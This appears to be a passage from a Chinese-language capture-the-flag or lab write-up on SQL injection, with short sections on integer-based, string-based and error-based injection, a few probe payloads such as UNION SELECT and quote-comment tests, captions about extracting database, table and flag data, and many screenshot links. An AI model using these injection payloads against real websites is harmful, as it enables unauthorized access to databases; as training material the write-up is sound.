 ![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751545510902-ca8e6adf-aa3c-40ae-8c1e-4d5a5a60e9ac.png)

## 三、SQL注入
### 整数型注入
```sql
1 #显示
1 and 1=1 #显示
-1 union select 1,2,3 #不显示
-1 union select 1,2 #显示
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751546610118-a931a08d-7486-4e73-bf94-3b38b6f59bea.png)

获取数据库和表

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751546698517-fcf93246-9a53-4f65-8812-945916eb0f2e.png)

获取`flag`表字段

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751546778809-4c238131-a3bd-4b62-8c3d-1efecbc335a8.png)

获取flag

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751546839196-e0b5e579-c8ff-416d-a5cf-bc0861b15282.png)

### 字符型注入
```xml
# 字符型确认
?id=1' and 1=1--+
?id=1' and 1=-1--+
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751552228298-cc46f7b1-f4fa-444c-a896-ba22c6a2451f.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751552346688-3dd08c0c-0482-42f3-8965-1aedeb589266.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751552424911-bc13562f-965a-47c2-9731-0b17583464d9.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751552592086-1a781cae-f532-4dbf-8c44-e3b6d7c62cdd.png)

### 报错注入
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751553015569-135ff899-b184-4da0-89d2-f9b1c3f0f054.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751553082896-685adb6d-70d9-41e8-9c27-e1915e0e5423.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751553134725-133ca9f8-f743-431a-bb96-7eb753d5f199.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751553247045-a8d6381a-83af-4151-8a25-b67463d164d1.png)
